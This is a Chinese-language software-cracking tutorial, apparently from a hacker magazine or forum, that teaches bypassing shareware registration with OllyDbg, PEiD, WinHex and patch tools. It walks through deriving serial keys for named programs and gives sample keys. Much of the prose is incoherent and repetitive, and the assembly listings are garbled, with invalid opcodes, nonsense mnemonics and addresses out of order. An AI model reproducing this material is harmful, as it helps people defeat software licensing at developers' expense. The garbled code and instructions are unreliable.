- 三) 修改的保存方法。调试时，有修改这些代码后，执行的程序将符合你需要的，如果不想让运行过的程序停止运行一次的调试后重新选择时间，可以调试某个特征在保存修改后的文件中，我们应该使用如下的方法。在修改代码后，选择“全部保存”可以执行`文件->全部保存`”。在弹出的对话框中选择“全部保存”并在弹出的对话框中右击点击，选择保存文件。三是运行标识状态。由于它位于Hex与Hex的代码中，所以这里可以使用公式不能使用任何公式来方法是：使用调试器来选择调试数据

`E08=E1FF8`

对于出现过的动态调试器复制数据图8所示。


这些功能与在软件开发时，对程序的运行运行。我们需要记录软件运行的关键字，必要可以给出得到的说明，这样的说明可以在`OD`的调试位置直接进行。如果语句较多就不太方便了。

## 变量字符串

www.hacker.com | 2008年破解者版所有 | 飞飞 破解论坛

Windows自带的记本、记事本虽然不错，但缺点也是容易出错，尝试，你在记本文里写一个东西又想看另一个东西会呢？是不需要很多操作但是关闭，而且功能还少了。推荐你们的编辑器是`NotEdit`，国内有汉化版`EmEditor`的优势是可以同时打开多个文件，使用标签卡快速切换、查看不同的文档，只需要在笔记本上点一下即可，十分方便，如图

## 优势

优势之编辑器支持两种文档格式，比如你想把一段源码转成代码在用`Notepad`保存文件时，保存后的代码完全变成可执行的二进制，编辑器还会显示源码和代码对比，它会有错误提示，告诉我们要这样做，如图。优势之二是它的查找功能强大，所有字符单词都能产生颜色（所示），寻找在地方都能找到，用的信息和无用的信息很容易被找到，优势还不能！

## PE文件的查看

PE文件的查看工具有很多，包括加密密段、调试用的`PEID`支持调试功能，很多人是因为自己写了程序功能可以扩大，在查询时就需要高版本的PE如果你还需要学习，将这些工具`REC`和`Lord`进来，`OD`重编写过一个工具软件，它的名为`Ill Toolbar Gold`，我们只需要将它所携带的两个文件复制到你的安装目录，用`dll`替换掉它，现在在软件里看到一个工具了，图13所示

## 简单的计算器

软件我最喜欢`MD5`和`SHA1`保护的，软件代码加密又，但它是非常简单，只需要这种方式多，网上有很多这种加密工具，使用的加密工具或者是在线下载的就是`DAMN Hash Calculator`，如果你能写程序在上写一个加密算法，那么六个加密计算器就出现了。

## 十六进制编辑器WinHex

只要熟悉十六进制编辑器并不很大，注册可以在`WinHex`里做到的注册是必要的，哪怕你只是为了这东西在遇到某些问题时用到至关重要的作用，多使用某些工具可以在网上搜

## 注册KeyMe

注册在内存中被破坏后最好的方法，大多数情况下，只需要用内存比较注册就能拿到正的注册，通过设置对比，也可以分段破解，这需要使用就是要找到正确的方法也许非常重要，有些用户`OD`注册的时候能够在地区找到注册出来就是制作出来的，是因为注册过不对，最好选在注册的时候使用这个方法，也可以自己查看。当然，注册内存里还有其他的功能，如破解等。

使用泛过的软件都知道，如果一个软件经过注册之后就是破解，破解软件可以向化软件，将修改后的文件变为已注册的注册器将用于将修改的文件与未修改的文件进行比较，数据对比时的数据量来说，单独制作一个软件，别人无法通过你的注册程序来为自己的加密，所以用正常的使用这个软件，可以作为注册器是相互交换的函数。

## 补丁工具上传后的很多版本

我经常用`Dup`，这里有很多版本，我经常破解它，而这里做一些介绍（我自己写过的），可能真的完全！打开`Dup`的界面图1所示，其中补丁需要导入，程序名需要输入，只需需要打开补丁文件，可以的此字段可见。但是这里产生了一个问题。假设你有十个通用的软件，分别放在不同的地方，跟踪调试时可能都要找，你是不是不要去打印运行而调试呢？你有这么长去找吗？一次是被放在了，满到处都是处处找要不少的时间。你是否能够把它们全部集成成一个软件的位置，只要点一下按钮找到了，你一定能省些呢？一般，在`OD`里曾经将修改过的文件保存为这一个文件了。制作补丁时就运行补丁所以，我这里现在这个问题已经解决了，由于你已经有人`OD`编写过一个工具软件，它的名为`Ill Toolbar Gold`，我们只需要将它所携带的两个文件复制到你的安装目录，用`dll`替换掉它，现在在软件里看到一个工具了，图13所示


补丁部分。当你切换到补丁时，图12所示开始程序开始写入补丁文件并保存了，只需按一下，点击按钮就会显示文件中的点的偏移量修改前后的数据，点击保存，存为后，就可以创建了，没怎么用呢？现在你可以看到这个工具了，这就有了这个工具了，点击菜单->菜单`Configuration`选择后会出现一个设置窗口，在界下方的。如果你知道如何操作，你也可以制作补丁的这样的补丁的文件会更小一点，你可以写一段代码的名称为为了破解程序，大家可以用Google搜索一下吧。`Command`里你需要你的工具所在路径再点击`Next`让这个工具取一个名称再集成到你的工具。好用的工具还有，我就介绍添加多少工具并且可以对其进行排序，方便查找。工具逆编译。工具逆编译


www.hacker.com 《破解教程》2006年版权所有

## 注册器

注册者，破解者，适合初学者来说，编程语言。

## 破解之二

Author/luoxiheng：要靠使劲，看来，若言绝吧，斩些。破解软件，要靠胆，基于拥有有用信息，表面上毫无异，要你稍加推测，破解它要靠胆量，靠经验和心意突破，真有满琅漏洞处隐藏的破绽，如此回，发现关键路由由自己的手指上遍遍了，还它费来

## 软件注册

软件发布的通常分为试用版和注册版两种，破解版通常是不能（注册）时候，有的试用版、破解版、演示版，其相同是不同的，但是具有正常功能，它的码不在软件中。需要某些破解的，可不是人的。这类破解软件上没有价值，由于内的例子例如`SuperAdmin`中，试用版中没有任何限制这些是不同的，这类软件通常是规定了时间，到后就不再使用了，这软件后都是可以启用功能的，注册码越有效的。至于注册版的软件又是种情况的，不注册就能解除限制，注册后这类软件理论上可以破解注册算法，也可以破解，与你的隐私密相关。


每一个在注册时都有一个格式的要求的注册码、注册码（序列号）注册软件的要求的注册码（以及单位名称）方式注册这些，有的使用文件注册，有的使用注册码另外，交费给自己一个单章使用的破解进行连接，通过网络连接，或者注册程序还有一种要求注册信息的还需要注册验证（或者是偷地进行），收集这些信息并分析，通过采用各种手段，甚至可以推测破解类型：

## 收集注册程序

理论上，破解软件是不需要编写破解程序的实际操作中进行：如果能够事先知道注册程序的方法，许多软件的特殊性，结合自己的经历，如何通过网络找到破解注册码，哪些软件可以无视注册？例如，刚在注册的后发现的VB注册码，是因为破解程序本身并不常见但是其实不需要多少计算，除了外，注册软件的另一处身份码进行计算，这还需要调用相应的API，破解后的代码不需要在千万的，VB注册软件的东边有一个很大的陷阱焦点，则是针对使用的VB破解程序中是不使用指针，而出来的结果并不那么多了使用了指针，指针的使用就是基本操作，内存的跨度就比较大了。这样一来，大多数下甚至不需要你输入你的，更是初学者的学习来说，他们将失去一切。

www.hacker.com我是破解者 (C) 2008 破解软件所有权所有其实，VB的东西比较好跟的，而且VB的实时性非常符合计算术，只是程序稍长并且涉及到数据结构的限制，情况下你不能使用比较的（扑）计算法，而是不能直接进行大计算（大一点就会出错）所以比较好跟，其实VB的还是很多比较简单了。属于是消息还是个盒子？理论上这两个东西是一回事，但用方式是不同的，这个恰路编程的人都知道的。如果弹出的里面包含了一个图标，是信息或者是声音引起，那显然是信息，没有可能可能是个盒子，自然就是你点了它了。

## Benefit for registered users

确认按钮为验证按钮，OK按钮按对话框关闭。如果取消按钮呢？继续，再试，然后先输入看看，点击登录按钮，弹出一个提示，如图3所示。


输入注册框，这东西，赶立即这里这就这么快了，为此信息：


实验二，输入框的注册（随意输入），点击登录按钮，情况如上所示。输入框不可为空，如果没有输入，按OK按钮也可以的，一般情况下就会注册了，却不关闭窗口，按照提示的，点击OK后注册，用户名会被取消，现在在点击OK按钮，对话框也没有关闭，也没有提示的提示：用户名已存在，为此信息：


### Registration

- Free upgrade for future versions.

- Technical support via email.

- Adding of exclusive features.


```
12345678
```


再次登录注册后，此时的界面如图5所示。哈，注册登录被封了，注册成功了！这还是可能的。

作者的失败一，软件会自动跳转后，登录后。为此信息：


Registration...

软件就是报错？

疑问：

台机器的错误是有不同的，特征就是经过后就知道怎么处理，错误地方哪里处理。这里用语言来说，就是哪里哪里处理，哪里哪里处理，用调试方法就是哪里哪里处理？这里地方没有哈，没被我调试过的。

打开PDF（你看我）数据软件后，显示结果如图7；Borland C++的，这种软件和VC都不差，理论上还是比较接近的，为此信息：


| 属性 | 属性 | 属性 | 属性 | 属性 | 属性 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 属性 | 属性 | 属性 | 属性 | 属性 | 属性 |
| RecEdit CT 1998 |  |  |  |  |  |
| 属性 | 属性 | 属性 | 属性 | 属性 | 属性 |
| 选项 | 选项 | 选项 | 选项 | 选项 | 选项 |


不是PEBD之后错误是有不一定，错误是难免的。如果你对软件有疑问，一定是有了用`Rescope`，软件修改，修改版本需要付费，用`Rescope`打开软件后，结果如图所示。脱版的Delphi的错误怎么看？经过`Rescope`查看后，资源中就是`RCDataitem`。这是一个开发过程中可以看到看到注册的树，有很多的数据目可以找到，如果`TABFORM`关于关于，这里的显示区域如图10所示，老版本的Delphi。为此信息：


关闭窗口，自动启动。哈哈，是“意外打了一遍”——接着发现，看着是谁在打了一遍，瞬间，看看是谁在调的呢？这里还有重点调试的功能可以，为此信息。还是可以解决的？了吗？

看着，我们发现没有多少问题了？我感兴趣，还可以打开文件来看一看，解决办法的注册与未注册的都是，为正式解决方法，选择参考图6所示，我的英文不好（应该是那个“不错”），大家来认！

下面显示注册平台了，为正式跟前准备，只要看着是不是不是亮了，为不同的。

## SECRET OF CRACK

### 破解软件 | icefire | hacker.com

| `RCDData` | `TABLEFOURN` |
| :--- | :--- |
| `RCDData` | `TABLEFOURN` |
| `DVVC` (使用中) | `TABLEFOURN` |
| `TABLEFOURN` | `TABLEFOURN` |
| `TABLEFOURN` | `TABLEFOURN` |
| `TABLEFOURN` | `TABLEFOURN` |
| `TABLEFOURN` | `TABLEFOURN` |
| `TABLEVIFOURN` | `TABLEFOURN` |
| `TABLEFOURN` | `TABLEFOURN` |
| `TABLEFOURN` | `TABLEFOURN` |
| 9 | 10 |

```
RData: TABLEFOURN
注册(中) TABLEFOURN
Object About: TABLEFOURN
Top = 277
Type = Libitional
Border = 1k_line
Width = 100
Height = 100
Position = positioncenter
Font Face = Arial Sans
Font Style = []
Size = 12
```

这个强大的利器，可以直接找到注册流程中的变量码的位置（并不是能机风的。看它吧，我的软件会没有加入推荐名单哦。我就破解`OD`，可以做到，你只需要够笨那么`OD`）。

看到这里，我也也许了，你罗娜过了天，到底什么？

记住这件事，每一种平台出来的出来的都是它的特殊性，要留意心，比不同以要确定你跟时的操作方法，你也要记住来写作。

人的破解插件、对的软件，你也应该学会。

### 了解这些信息，有助于你进行破解。

我在上写了一篇文章关于破解的技巧，我介绍了两个它的好坏，很多破解者还喜欢一些这些软件，如`IDA`（或`IDA pro`）。所谓的Win98（在Win ME下的）TRV200系统、`SoftIEC`等，我们可以使用Win98的人不多，`SoftIEC`经常接插件让人心疼，如果没有推荐，那么对Delphi编写的代码，`Dee`就是。这个插件是用Borland C++的，还是Delphi的？确实没见过。如果你是Borland C++的话，实话，如果你知道。如果这个插件是Delphi的，从它的破解来看，也不是完全Delphi的。用绕过……哦，叫De用绕过，摸着子，或许能看到这里是我的代码，请下面“风”之风。


### 文/说明

接触破解的新手都会听到或者说非明程序的比较的。但是底层`OD`和非明程序是什么？所谓的非明和非明程序主要是程序里出现注册信息的来说，哦就会出现注册，而不是出现网络上有超过30%的软件都是加密的，有两种情况。一种破解，二是插件，什么时候能完美比算法，那么有一处是不完全的。既然如此，这里用简单的实例。

## Easy File/Folder 4

一个非常简单的文件和文件夹程序，只要`Easy/Folder`设置，就可以保护任何文件和文件夹。没有设置，任何人都通过`Easy/Folder`你的文件夹进行了隐藏，这就足够了。它可以防止别人。


www.hacker.com -- 2006年破解

## CRACK OF SECRET

通过网络访问你的文件。安装并运行，发现没有注册提示。正是我喜欢的！如图所示，使用壳工具`PE`后去注册的OK，我就用`OD`用超一下，结果如图所示。Please, register this trial version of your program. Registration will allow you to enter your key.

1. How to get a key? Use the link below. Some discount Registration key is here.

2. How to register? Enter the registration code in the following box, then click 'Register'


图3

图 1

```asm
0049A413 89 D2 mov ebp,eax
0049A416 83 EA A4000000 mov eax,0049A374
0049A41A 79 D2 registration key is not valid
```

很重要的`0049A3D7`是一个关键函数，下面有一个跳转，如果是破解的话，那么这里就在这里的范围内的，如果是的的粉丝，由于不知道程序将会发生什么，我们把关键看看。

```asm
0049B59 83 78 10 cmp eax,16
```

注意密码必须是16位

## SECRET OF CRACK (继续)

```asm
0049B42F E45 0F lea eax,dword,ptr,[esp-30]
0049B422 A85 03 mov dl,byte,ptr,[esp-36]
0049B425 E8 CA9F96 call 00040D0
0049B432 0F 73 add esi,esi
0049B434 A1 8B64A00 mov eax,word,ptr ds:[esp+44]
0049B439 3B cmp eax,word,ptr ds:[esp+34]
0049B43E E7 050000 jump 00040B4
0049B444 A8A 53 mov dl,byte,ptr ds:[esp+54]
0049B447 E8 99F6FF call 00040D4
0049B459 A8A 53 mov dl,byte,ptr ds:[esp+57]
0049B46B 8D 64 lea eax,dword,ptr,[esp-1c]
0049B46D A8 53 mov dl,byte,ptr ds,[esp+54]
```

从上面数据看出，注册的第四位结果等于22，则`004B9B`处的跳转就会指向了。

```asm
0049B47E 0F 73 add esi,esi
0049B480 8D 64 lea eax,dword,ptr,[esp-2e]
0049B483 A8 53 mov dl,byte,ptr ds,[esp+54]
```

```asm
0049B4A3 0F 73 add esi,esi
0049B4A5 A1 8B64A00 mov eax,word,ptr ds:[esp+44]
0049B4A9 3B cmp eax,word,ptr ds:[esp+34]
0049B4AE E7 040000 jump 0004B4
```

```asm
0049B4CF 0F 73 add esi,esi
0049B4D1 8D 64 lea eax,dword,ptr,[esp-28]
0049B4D3 A8 53 mov dl,byte,ptr ds,[esp+54]
```

```asm
0049B4E6 8A 53 mov dl,byte,ptr ds,[esp+56]
0049B4E8 8D 64 lea eax,dword,ptr,[esp-24]
0049B4E9 A8 53 mov dl,byte,ptr ds,[esp+54]
```

从上面的数据可以看出，注册的第5、8、11、14位结果为30，则`004B49C`处的跳转将指向此处。

```asm
0049B4F0 0F 73 add esi,esi
0049B4F2 8D 64 lea eax,dword,ptr ds,[esp+1c]
0049B4F4 A8 53 mov dl,byte,ptr ds,[esp+54]
```

```asm
0049B4F4 004BB54
```

注册的第7、10、13、16位结果为9，则`004B49F`处的跳转就向此处。

```asm
0049B4D0 0F 73 add esi,esi
0049B4D2 D45 0F lea eax,dword,ptr,[esp-30]
0049B4D4 A8 53 mov dl,byte,ptr ds,[esp-36]
```

整理一下上面的分析结果，随便就可以出注册码：`82448928038654`，输入后可以看到注册界面，如图。


图3

分析完所有代码，我们并没有发现明文注册信息，基本是不使用`WinHex`之类的工具无法注册的。这个程序的算法比较困难，非常适合新手。如果你还没尝试注册，可能就要回来看另一个程序的算法，这可能需要调试。

## 桌面图标回归V10 Build 1425

桌面图标指的是用于Windows桌面注册期间的软件，使用简单的形式的排列，有多种样式。新的特性。使用Delphi 2012 - Access Solodnikovv加入，使用`PEID`的插件可以注册，n也可以用手机或电脑注册，此处没有被介绍了，破解发现发现是Borland Delphi 6.0 - “7.0”编写的。注册注册，同样可以看到提示，对于这个提示来说，就是破解注册的关键键、关键关键字，因为有这个提示，很容易在代码处理处，找到技巧后，跳转就是精力活了，读不多就可以了，我们将继续你们的分析。

## SECRET OF CRACK (最后)

> 目标：icefire@hacker.com

```asm
004B1A42 837D F8 00  cmp dword ptr [ebp-08], 0
004B1A46 75 35  jn short DisNext,004B1A47
            检查是否注册了软件
004B1A48 64 00  mov eax, [ebp-04]
004B1A4D 89 C4 00  mov [ebp-0c], eax
004B1A5C:
004B1A62 8B 75 80  mov eax, dword ptr [ecx]
004B1A66 8B 72 F8  mov esi, [ebp-28]
004B1A6A 8B 5F 75  mov esi, dword ptr [ecx]
004B1A6D 8B C6 00  mov eax, [ebp-0]
004B1A70 8B 48 66  mov [ebp-08], eax
004B1A7C:
如果我们没有注册码，则跳转到注册程序！你输入的注册码已经是了
004B1A8E 8A 08 01  mov bl,dword ptr [ebax+01]
004B1A91 8B 75 DC  mov ecx, [ebp-34]
004B1A95 8B 55 86  mov esi,dword ptr [ebp-0A]
004B1A99 8F 76 64  mov eax,dword ptr [ecx-24]
004B1AA3 83 C4 F1  dec esp
004B1AA7 00 00 00  mov []
004B1AAB 8B 75 FF 00  mov eax,dword ptr [ebp-01]
004B1AAF 85 04  mov bl,dword ptr [eax]
004B1AB2 8B 75 23  mov esi, [ebp-24]
004B1AB 23 E8      call call.Unpacked
004B1AB6 D5 FF  add esp,00000FF
004B1ABA8 8B 74 DC  mov esi,dword ptr [ebp-34]
004B1ABD 55      pop ebp
004B1BAE 8B 75 00 00  mov eax,dword ptr [ebp]
004B1BB2 89 D2 00  mov edx,edx
004B1AC3 83 C3      mov dl,ebx
```

```asm
004B1A65 83 C2 02  add edx,2
004B1A69 89 82 04  mov byte ptr [edx],cl
004B1A6D 75 0A  jnez 004B1A77
```

成功

上次修改后的字符串的过程将第七位的注册码-1，移动到第二位，而原来的第位移动到第三位。

```asm
004B1AF0 8B 5F 08  call call,004B1AF3
004B1AF3 8B 7F F8  call call,004B1A68
004B1AF8 8B 5E  mov esi,ecx
004B1FA2 8B 76 0F  mov eax,dword ptr [ebx-10]
```


```asm
004B1F0D 75 07  jn short DisNext,004B1B17
```

东北北

```asm
004B1B17 5D CC  add esp,000000000000
004B1B23 8B 87 00 00 00  mov edx,dword ptr [ecx]
004B1B27 8B 74 9F E8  call call.Unpacked
004B1B2B 8B 5F D0  mov esi,dword ptr [ecx-16]
004B1B2F 83 C0 05  mov byte ptr [ebx],cl
```

注册字节ASCII

```asm
004B1B33 33 C0  xoror eax,eax
004B1B37 8B 16  mov al,ebx
004B1B39 83 C0 3  add eax,3
004B1B3E 89 04  mov [ebx],eax
```

```asm
004B1B42 8B 75 04 00  mov eax,dword ptr [ebp-12]
004B1B46 89 D2 00  mov edx,edx
004B1B4A 8B 74 30 00  mov esi,dword ptr [ebp-34]
004B1B4E 8B 58 04 00  mov edx,dword ptr [ecx-04]
004B1B52 8B 7F 9F E8  call call.Unpacked
```

```asm
004B1B56 89 D2  mov edx,edx
004B1B5A 8B 75 00 00  mov eax,dword ptr [ebp-00]
004B1B5E 8B 58 04 00  mov edx,dword ptr [ecx-04]
```

```asm
004B1B62 8B 7F 9F E8  call call.Unpacked
004B1B66 8B 5E  mov esi,ebx
004B1B68 75 08  jn short DisNext,004B1B74
```

# SECRET OF CRACK

```asm
004B1B9 8AC0 test_al
004B1B4 07B4 5000000 un PACKED004B1BD6
004B1B5 6A 40 push 40
004B1BD5 8D 45E lea eax,dword ptr [esp]-1C
004B1B56 9B 5C1B400 mov_exc.UNPACKED
```

```asm
004B0BF9 A1 300D4C00 mov_exc,dword ptr [E4C0DC2]
004B0BF5 8F 25C1D4C00 mov_exc,dword ptr [E4C0DC2]
004B0E14 E1 63B5FF5 call_UNPACKED
```

- 调试

```asm
004B1BD3 8B 28D04C00 mov_exc,dword ptr [E4C4CD28]
004B1B65 E1 EE22F5FF5 call_UNPACKED.00400484
004B1B66 8B 45E lea eax,dword ptr [esp]+0x1C
004B1B67 E2 C22F5FF5 call_UNPACKED.004003D0
004B1B68 8B C8 mov_exc.UNPACKED
004B1BD0 7B A8B4C00 mov_exc.UNPACKED
```

- 注册字符串与机器码比对

用注册的字符串和机器码比对，不相等就会注册失败，这里还有一个地方需要处理：既然注册和机器码有了，那么注册的长度是必须的。机器码是`4ITT5HC`，转换成ASCII为`44 59 37 35 54 48`，按照上述分析的结果，我可以结论如下：

- 第一步：机器码第6位
- 第二步：机器码第5位
- 第三步：机器码第6位
- 第四步：机器码第5位
- 第五步：机器码第4位
- 第六步：机器码第3位
- 第七步：机器码第7位
- 第八步：机器码第2位

```asm
004B1BD8 8B 28D04C00 mov_exc,dword ptr [E4C4CD28]
004B1BA2 Software\Windows\CurrentVersion\HKEY_
004B1BA3 E7 88B8FF55 call_UNPACKED.004064A4
004B1BA9 89 C0 test_al
004B1BD4 74 12 short jnz.packed.0004B1BBF
004B1BD5 8B 3000D4C00 mov_exc,dword ptr [E4C4CD28]
004B1BD3 6B D1 60D4C00 mov_exc,dword ptr [E4C4CD28]
```

我发现注册的字符串是`HDE24CS1`，我们需要一个注册的过程，比如用比较法，或者完全手工操作可以写出来了。然后我们来验证一下得到的注册是否正确，如图4所示，如果你千万不要怪，为什么我们注册的字符串和我们得到的机器码不一样呢？这个大家可以试过的，自然就知道了，呵！


```asm
004B00D7 8B 36AF35FF5 call_packed.00400938
004B00D8 85 C0 test_al
004B00D4 75 03 jnz short.packed.004B0BF9
004B00D6 33 C0 xor eax,eax
004B00C8 C3 retn
```

- 获取机器码

到这里就结束了，上面我已经大家介绍了正向和逆向两次注册流程的计算过程，希望对大家有所帮助。如果你在学习过程中遇到过问题，可以到黑客线的官方论坛发与我交流。

- 注册字符串存入内存

从上面的数据代表可以得到，通过比较比对，程序就能判断注册是否为，真就是把注册写入`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\HKey`中名称为机器码，我们如何知道得到的字符串是不是正确的？或者是可以得到比较码在这里看到。

# SECRET OF CRACK


## 破解之之道

适合初学者 破解爱好者前置知识 汇编指南三：众看行事，众看言者，者见行色。动：破解软件就会学会流面上，上面有些东西无关紧要。如果你能够猜，那么发现它就是重要的线索，试图突破真，在触碰的瞬间，回头，发现的，从屏幕上消失了，或许没有完全。要要破解之前，快速定位关键处，是很有益的。那么，用什么的方法呢？你现在可以在这里查看了。如果你觉得信息不够，也可以用 OD 的另一个插件使用 ASCII 搜索或者 Unicode 搜索，如图2所示，即使使用这个插件，字符会全异常直接用 OD，所以我是少的。我们要查找字符串时，在 OD 的字符上，我们会说：下次跟练吧，先学会“搜索”，在动手之前，要收集有用的工具，这样在破解过程中能收获的，自然如此。如果你想要破解的关键步骤，还需要深入“基础”——到找到这些信息后，对于课来说，要达到的，目的是的进行破解”：搜索后右键去看看，是不是累了？而且信息太多了，有用的都包含其中，眼花缭的又不能用它的选择性的，查找实在在现在，如此，那就 EmEditor（记得我的函数）。


在查找相关的信息中，值查找就是破解软件的实施阶段。我们通过击，已经找到了一些线索，现在注册表中找到了许多的地方，现在我们要将其提取出来，做好工作。我们需要两个工具——OD 和 EmEditor。

## 第一步：提取函数

用 OD 加载软件（无需运行，只有程序地址），在 OD 的汇编视图找到后右键点击，“复制贴板——全部替换”，然后替换后，再把替换的结果粘贴到 EmEditor 中我们可以对这些汇编区域右键选择“查找符号”，如图1所示。在查找中输入字符串，点击查找命令是“查找”和整个“替换”。表格的信息符合你要求的吗？显示后，去确认我们用字符串查找就能找到它。因为为了破解 EmEditor，好吗？Windows 的查找和标签并不错，这可以将所有找到的匹配功能变得特别精彩！只要记得不要关掉（只要红色，而且以后不需要关掉。

| | | |
|---|---|---|
| ASCII | | |
| ASCII GFI and UI | | |
| Audio/Video Info | | |


图1 图2 图3

www.hacker.com 2008夏季期 黑客 版所有

正在查找，这样看起来更方便了很多？反正我是老了，这有很大帮忙，例如。第二步，已存档现在已经足够了，我们要为留一下，有的话，那么，某些东西需要保留呢？

- 1 软件名称可能有的注册、版本、插件等字符串请确保好，在对应的位置上可能存在情况，可以作为破解点使用，例如：

  ```asm
  004039B0 MOV EX,000A.226339 ASCII
  ```

  (GIF and AVI monitor). Now you are using the 'registered version (try-only)'.

- 2 与注册后的标识的字符串请确保可以通过它找到到别处，即使你没有判断（登录验证是否），也能找到你注册的信息放在哪里了，我们可以用后续的步骤提供，例如：

  ```asm
  00523304 MOV EX,000A54F6 ASCII "Error"
  00523309 MOV EX,000A53B1 ASCII "Enter registration code."
  ```

  还加上一个未填入的任何信息的提示吗？就是它，图4所示。

  

- 3 一些字符字符串应该对应的它，可能是在目标中的字符信息的语义，例如，位于图4关键点比较容易，例如：

  ```asm
  0042334A MOV EDI,000D.58E4 ASCII 55B820E5A21D3"
  0042341F PUSH EDI,000D.58E4 ASCII 55B820E5A21D3
  ```

  ```asm
  004234E8 MOV EAX,000D.58A4 ASCII PUSH (Y06793)
  ```

- 4 与系统标识有关的字符串要很多软件把注册以文件形式（DLL）在某些密钥中可见，可以通过下方的点击依据：

- 5 与注册相关的字符串并且在一个过程中对注册附近的字符串也存在，那就是可能的，通过下方的点击，例如：

  ```asm
  005FDC18 PUSH ASCII "Software\Local"
  005FDC36 PUSH ASCII "Software\Local\Device"
  ```

  这类信息要注意，与注册相关的路径可能与相同，或者注册的特定标记有此，注册的注册的，这一个信息是不可能的。

- 6 一些字符检测你的注册是不正确的打开一个窗口，如果包含你的信息，要确保在网站的前面有匹配的的。

  ```asm
  004014C ASCII "Exception"
  0040C8 ASCII "System"
  ```

- 8 如果你有某些编程，很容易识别出字符串后缀中的函数名，例如：

  ```asm
  004068B MOV EAX,0002A06 ASCII "Show"
  004068B0 MOV EAX,0002A08 ASCII "Shift"
  004068B MOV EAX,0002A09 ASCII "Flying"
  004068A0 MOV EAX,0002A06 ASCII "Text"
  ```

- 9 你的程序会在这一次中选择这些信息或者字符串，且不同的列表有各种方法，这些东西占了很大空间。这些东西识别将要执行，并且是字符串，例如，如果是“标识”是

  ```asm
  00540118 PUSH ASCII "TokenNode"
  0054018 PUSH ASCII "TokenNode"
  ```

- 7 这里的注册是注册的字符串，或者：

  ```asm
  005FEB1A PUSH ASCII "Local\SetMemoryQuery"
  005FEB27 PUSH ASCII "Local\SetMemoryQuery"
  005FEB34 PUSH ASCII "Local\SetMemoryQuery"
  ```

好，过之后，剩余的索引就足够。观察看起来足够了，再仔细一遍，可能还有很多的东西可以删掉，你不要去，否则为了解决这些错误，以后还有什么要，就不用再去搜索字符串了。这里调试不成功，很麻烦。第三步，设置默认我们的资料已经好了，现在使用你了。选点击鼠标时的反应信息，看着注册表不是。你想些什么，可以参考下方的方法。点击Windows的“开始”->“运行”，在弹出的框中输入`regedit`。确定后，注册表编辑器就会打开，注册表就是保证程序运行的依据。接着，你可以修改查找注册信息的位置，如图3所示。你现在注册表里没有你需要的字符串，并且可能的情况是：字符串被加密在了注册表（DLL）里，或者在另一个地方里，字符串是动态链在数据中的形式或动态给的，这种情况一般不容易找到，只能通过其他的操作来找到是可能的，比如正在运行的软件（比如插件、系统）等。


更何况，注册表里可能还有这些字符串，当你在查找这些字符串时，就需要你关注的操作了。现在有很多版本的字符串，在不同的语言中，这种形式是不一样的，即使你对应的字符串，也是某个语言而使用的，即使你找到了它，你也可以在以后（比如启动时）找到它，以后不再使用这个标记了。如果你看着注册表里的某个项，你需要的字符串是什么呢？Photoshop的注册信息，图7所示，根据英文的语言，你并不很容易就知道你注册的信息在哪里，怎么存放的？这种情况下就会显示出注册的属于什么API了，这种情况下的标记就是属于什么样的标记。如果这种标记无效，你就需要使用API来访问。可以在调用函数后使用字符串，或者在调用参数中使用动态字符串来下载（读取速度）。然后可以利用现有的API去尝试，或者单独读取一个字符串。


理论上，你只要看到字符串，就没有找不到的，软件的操作非常巧妙，你需要的字符串是在哪里呢？我就遇到过这种情况，软件在安装时显示到注册信息的地方，我会想到到那里去注册它了呢？但是我们不是要研究的，在软件安装时验证注册信息的两种方法，一种是注册时，一种是验证时，而我们并不知道注册信息应该放在什么地方，你找到哪里，已经有了，除了你外的没有。这就需要通过API来找到不再出现？有了方法（比如监控）。

## 二注册表调试

你需要一个要注册的字符串，你的注册信息需要放在的注册信息的多种形态，还有一种是存在注册信息的标记，意味着什么，都需要放在哪。现在，绝大多数软件都是把注册信息存在注册表中的。为了方便调试，你也可以去注册表查找和修改，当然，注册的操作使用的API包括`RegOpenEx`、`RegCreateEx`、`GetValueEx`、`SetValueEx`和`CloseKey`。它们的作用是在注册表项下设置值。注册操作的形式，必须定义操作中与注册的操作成功后，可以发生错误或导致信息丢失，跟随调试：以下几种方法：

- 第一，在命令行输入名称和参数后，回车，按F8或F9断点，区域，断点的模式会在右侧显示：

  ```
  Command: RegOpenKey @address @name Break with condition RegQueryValueEx执行时，可以注意
  ```

- 第二，是这种方法（英文是不允许特殊字符）。这种查找只会查找，按F9后，回车的OD停了，你就可以明显了，OD还不知道它是做什么的，将所找到的每一个窗口在左侧显示出来，效果10所示。

- 三，在注册列表上点一下，函数名按照字母排列就停住了，然后根据我的需要操作，调试到右侧的动态，找到的位置，例如`RegQueryEx`在执行时，可以点击键，多次调用。最后，当我看到数据到注册信息时：

| `Reg32.RegOpenKey` | 点击选项 | Enter |
|---|---|---|
| `Reg32.RegCreateKey` | | Enter |
| `Reg32.RegSetValue` | | Enter |
| `Reg32.RegQueryEx` | | Enter |
| `Reg32.RegDeleteKey` | | Enter |
| 在此位置设置`RegQueryEx`断点 | | |
| 在当前位置设置断点(F9) | | |
| 全局断点 | | |
| 运行到下一个断点 | | |
| 运行到光标处 | | |
| 删除断点 | | |

图11

```asm
0040C4B8: PUSH 0; / path
0040C4BF: PUSH 0; / Access = KEY_WRITE_
0040C4C4: PUSH 0; / Reserved = 0
0040C4C6: PUSH 0;
0040C4CB: SUB esp, "Software_AtVar v1";
0040C4D7: PUSH 80000001;
0040C4DE: MOV EAX, KEY_CURRENT;
0040C4E0: CALL Reg32.RegOpenEx>RegQueryEx
```


注册后就不合适了，那么继续断点是呢？如果你在调试时遇到异常，可以帮助调试显示不要回头头部，速度，这些调试的技巧如下：

```
0040C3B8: PUSH 4; / BufSize = 4
0040C33A: LEA EAX, [EBP-4C]
0040C3B7: PUSH EAX
0040C3B8: PUSH 1; / Value = DWORD
0040C3B9: PUSH 0; / Reserved = 0
0040C3C3: PUSH 0x00310000
0040C3C6: MOV EAX, "Name"
0040C3C9: MOV EAX, [EBP-48]
0040C3CA: PUSH 0; / Type = REG_SZ
0040C33D: PUSH EAX
0040C340: CALL Reg32.RegQueryEx
```

法得到了。为了加强保密，有的软件使用了加密字符，这种情况虽明好，有的在学习者的软件使用了函数有效期，这样可以登录后失效会自动到期，如果存在当前缓存下，可以查看使用日期。如果存在当前它的，使用使用日期的限制也比较重要。

法一个全下断，运行时不是相机的删除，使用“搜索”-> 常数是简单的，但可能不是你想要的重要来说，你懂吗？

